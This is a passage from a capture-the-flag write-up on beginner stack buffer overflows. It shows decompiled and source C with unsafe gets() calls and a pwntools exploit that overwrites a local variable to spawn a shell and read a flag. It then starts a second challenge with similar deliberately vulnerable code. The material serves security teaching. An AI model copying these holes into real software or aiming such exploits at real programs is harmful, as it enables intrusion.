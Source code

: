 Since there is no stack canary, we simply need to smash the variable `overwrite_me` with some simple stack BOF.

Decompiling `pwnme` with Ghidra, I got the following output:

```c++
undefined8 main(void) {
    char local_118 [268];
    int local_c;

    local_c = 0x4d2;
    puts("Welcome to PWN 101, smash my variable please.\n");
    gets(local_118);
    if (local_c == 0x1337) {
        system("/bin/sh");
    }
    return 0;
}
```

Doing some reading, I found out that apparently the Ghidra variable names indicate stack frame offset (which makes this so so much easier). That is, `local_118` is `0x118` bytes offset from the stack frame pointer, and similarly `local_c` is `0xc` offset. Thus, since the decompiled code indicates that the `gets` will put stuff into `local_118`, we just need to write `0x118 - 0xc` bytes of junk and then write `0x1337` and we should get shell access. 

Thus, the exploit is as follows:

```py
from pwn import *

binary = context.binary = ELF('./pwnme')

p = process(binary.path)
payload = b''
payload += (0x118 - 0xc) * b'A'
payload += p32(0x1337)

p.sendlineafter("Welcome to PWN 101, smash my variable please.\n", payload)
p.interactive()
```
At this point we get shell access and we can just run `cat flag.txt` to get the flag. Yay! On to the next one!

## Intro to PWN 2

Similar setup to last time, except we have a new executable made from the following C code:
```c
#include <stdlib.h> 
#include <stdio.h> 

void win() { 
    system("/bin/sh"); 
}

void vuln() {
    char buf[55]; 
    gets(buf); 
}

int main() { 
    puts("Level 2: Control the IP\n"); 
    vuln(); 
    return 0; 
} 
```

